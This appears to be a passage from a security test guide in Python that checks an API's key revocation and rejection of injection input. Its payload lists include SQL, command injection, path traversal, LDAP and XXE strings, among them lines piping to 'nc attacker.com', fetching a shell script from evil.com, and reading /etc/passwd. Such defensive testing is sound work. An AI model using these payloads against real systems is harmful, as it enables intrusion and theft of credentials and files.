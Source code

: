 ```python
    # Old key should be immediately invalid
    response = api_call_with_key(old_key)
    assert response.status_code == 401
```

#### Input Validation Security
```python
def test_injection_attacks():
    # SQL Injection attempts
    sql_payloads = [
        "'; DROP TABLE audits; --",
        "1' OR '1'='1",
        "admin'--",
        "1; UPDATE users SET role='admin'",
    ]
    
    for payload in sql_payloads:
        response = create_audit(name=payload)
        assert response.status_code in [400, 422]
        assert "error" in response.json()
    
    # NoSQL Injection (for any NoSQL queries)
    nosql_payloads = [
        {"$ne": None},
        {"$gt": ""},
        {"$regex": ".*"},
    ]
    
    # Command Injection
    cmd_payloads = [
        "; cat /etc/passwd",
        "| nc attacker.com 1234",
        "`curl attacker.com`",
        "$(cat /etc/passwd)",
        "&&dir",
        "|dir",
        ";ls -la",
        "`id`",
        "| wget http://evil.com/shell.sh",
    ]
    
    # Path Traversal
    path_payloads = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32\\config\\sam",
        "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",
        "....//....//....//etc/passwd",
        "..%252f..%252f..%252fetc%252fpasswd",
        "..%c0%af..%c0%af..%c0%afetc%c0%afpasswd",
    ]
    
    # LDAP Injection
    ldap_payloads = [
        "*)(uid=*",
        "admin)(&(1=1",
        "*)((mail=*",
        "*)(|(mail=*)(a=b",
    ]
    
    # XML Injection
    xml_payloads = [
        "<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
```